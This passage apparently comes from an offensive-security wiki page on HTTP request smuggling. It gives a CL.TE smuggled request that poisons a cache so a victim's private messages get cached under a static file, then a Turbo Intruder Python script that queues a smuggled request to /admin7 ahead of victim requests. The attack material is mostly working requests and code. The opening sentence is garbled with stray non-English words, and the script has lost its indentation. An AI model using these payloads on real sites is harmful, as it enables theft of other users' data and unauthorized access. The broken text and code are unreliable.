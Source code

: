 attacker smuggled request crafted vItlhutlh sensitive user-specific content fetch. example following Qap:
```markdown
`POST / HTTP/1.1`\
`Host: vulnerable-website.com`\
`Connection: keep-alive`\
`Content-Length: 43`\
`Transfer-Encoding: chunked`\
``\ `0`\``\
`GET /private/messages HTTP/1.1`\
`Foo: X`
```
**If this smuggled request poisons a cache entry intended for static content (e.g., `/someimage.png`), the victim's sensitive data from `/private/messages` might be cached under the static content's cache entry. Consequently, the attacker could potentially retrieve these cached sensitive data.**

### Weaponizing HTTP Request Smuggling with HTTP Response Desynchronisation

**Have you found some HTTP Request Smuggling vulnerability and you don't know how to exploit it. Try these other method of exploitation:**

{% content-ref url="../http-response-smuggling-desync.md" %}
[http-response-smuggling-desync.md](../http-response-smuggling-desync.md)
{% endcontent-ref %}

## Turbo intruder scripts

### CL.TE

From [https://hipotermia.pw/bb/http-desync-idor](https://hipotermia.pw/bb/http-desync-idor)
```python
def queueRequests(target, wordlists):

engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=5,
requestsPerConnection=1,
resumeSSL=False,
timeout=10,
pipeline=False,
maxRetriesPerRequest=0,
engine=Engine.THREADED,
)
engine.start()

attack = '''POST / HTTP/1.1
Transfer-Encoding: chunked
Host: xxx.com
Content-Length: 35
Foo: bar

0

GET /admin7 HTTP/1.1
X-Foo: k'''

engine.queue(attack)

victim = '''GET / HTTP/1.1
Host: xxx.com

'''
for i in range(14):
engine.queue(victim)
```